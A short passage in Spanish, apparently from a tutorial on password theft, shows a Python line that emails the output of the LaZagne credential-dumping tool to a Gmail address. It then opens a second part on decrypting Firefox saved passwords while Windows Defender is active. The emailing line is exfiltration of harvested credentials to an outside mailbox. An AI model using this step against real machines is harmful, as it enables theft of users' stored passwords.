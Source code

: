 # Envío de Información por Correo

Si queremos enviarnos la información obtenida por correo, añadimos la siguiente línea al final del script:

```python
send_email("Lazagne Info", output_lazagne, "tucorreo99@gmail.com", ["tucorreo@gmail.com"], "tu clave de aplicación")
```

---

# Segunda Parte: Jugando con Firefox Decrypt Passwords

Para la segunda parte, necesitaremos tener activado Windows Defender y utilizar la utilidad **firefox decrypt passwords**.